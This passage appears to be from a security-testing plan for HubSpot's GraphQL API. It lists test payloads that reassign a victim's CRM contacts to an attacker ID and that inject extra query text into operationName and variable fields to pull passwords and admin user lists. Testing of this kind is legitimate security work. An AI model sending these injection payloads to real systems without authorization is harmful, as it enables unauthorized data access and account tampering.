 **From Schema**: We know there are 52 mutations

**Test Mutations**:
```graphql
mutation {
  updateCrmObjectProperties(
    objectId: "VICTIM_CONTACT_ID"
    properties: { hubspot_owner_id: "ATTACKER_ID" }
  ) {
    success
  }
}
```

**Injection Goal**: Assign victim's contacts to attacker's account

#### Test 4: Query Substitution (From False Positive Report)

**Remember**: Low-priv could execute `CrmObjectsSearchQuery`

**New Test**: Can we INJECT into this?

```
# URL parameter or variable injection
operationName=CrmObjectsSearchQuery") { results { password } } adminQuery:users(role:"admin
```

**Goal**: Chain query substitution with injection for critical impact

#### Test 5: Variable Injection

**HubSpot sends**:
```json
{
  "operationName": "CrmObjectsSearchQuery",
  "variables": {
    "objectTypeId": "0-1",
    "properties": ["email", "firstname"]
  },
  "query": "query CrmObjectsSearchQuery($objectTypeId: String!, $properties: [String!]) { ... }"
}
```

**Test if `objectTypeId` or `properties` are injectable**:

```json
{
  "variables": {
    "objectTypeId": "0-1\") { id } admin:allUsers(role:\"admin",
    "properties": ["email"]
  }
}
```

---

## Testing Checklist for HubSpot GraphQL
